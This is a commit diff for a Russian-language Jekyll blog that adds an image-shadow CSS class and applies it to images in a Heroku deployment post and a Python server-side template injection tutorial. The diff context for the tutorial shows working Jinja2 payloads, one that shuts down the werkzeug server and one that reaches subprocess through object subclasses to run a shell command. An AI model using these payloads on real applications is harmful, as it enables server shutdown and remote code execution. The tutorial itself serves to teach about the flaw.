

add image shadow

diff --git a/_sass/_highlights.scss b/_sass/_highlights.scss
@@ -1,4 +1,3 @@
-
 .pre.highlight {
   background-color: #efefef;
   padding: 7px 7px 7px 10px;
@@ -25,6 +24,10 @@
 }
 code {
   font-family:'Bitstream Vera Sans Mono','Courier', monospace;
+}
+
+.shadow-image {
+  box-shadow: 0 4px 18px 0 rgba(0,0,0,0.1), 0 6px 20px 0 rgba(0,0,0,0.09);
 }
 
 .highlight .c { color: #586E75 } /* Comment */

diff --git a/_posts/2018-06-25-deploy-django-postgres.md b/_posts/2018-06-25-deploy-django-postgres.md
@@ -5,7 +5,7 @@ title: Деплой Django + Postresql на Heroku
 
 В настоящее время существуют облачные платформы, такие как heroku и redhat openshift, которые предоставляют возможность бесплатно разместить у себя ваше приложение. Конечно бесплатный тариф имеет множество ограничений, но он может отлично подойти для учебного проекта или какого-нибудь простого приложения не требующего много ресурсов.
 
-![heroku](/images/heroku.png)
+![heroku](/images/heroku.png){: .shadow-image }
 
 Heroku предоставляет бесплатно 500 mb на диске и  512 mb RAM (подробнее тут - 
 [https://devcenter.heroku.com/articles/limits](https://devcenter.heroku.com/articles/limits)). Также есть возможность использовать свой домен. Приложение работает в специальном Unix-контейнере, который называется Dyno. Free plan предоставляет 1 dyno без возможности масштабирования. Также время работы ограничено 1000 часами в месяц и приложение "засыпает" после 30 минут без активности. В dyno используется эфемерная файловая система. Это означает, что созданные приложением файлы удаляются. 

diff --git a/_posts/2019-02-09-Server-side-template-injection-python.md b/_posts/2019-02-09-Server-side-template-injection-python.md
@@ -42,7 +42,7 @@ if __name__ == "__main__":
 ###### Пример атаки
 Попробуем подставить в уязвимый параметр выражение `{%raw%}{{1+1}}{%endraw%}`
 
-![ssti1](/images/ssti1.png)
+![ssti1](/images/ssti1.png){: .shadow-image }
 
 ###### К чему мы получаем доступ
 * к объекту `request`
@@ -51,7 +51,7 @@ if __name__ == "__main__":
 
 
 ###### Остановка сервера
-В случае если мы используем werkzeug следующий payload приведет к остановке сервера
+В случае если мы используем сервер разработки следующий payload приведет к остановке сервера
 ```console
 {% raw %}{{ request.environ['werkzeug.server.shutdown']() }} {% endraw %}
 ```
@@ -64,7 +64,7 @@ if __name__ == "__main__":
 {{ ''.__class__.__mro__[1].__subclasses__()[282]('touch /tmp/rce',shell=True) }}{% endraw %}
 ```
 
-![ssti2](/images/ssti2.png)
+![ssti2](/images/ssti2.png){: .shadow-image }
 
 ##### Links
 * [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection)
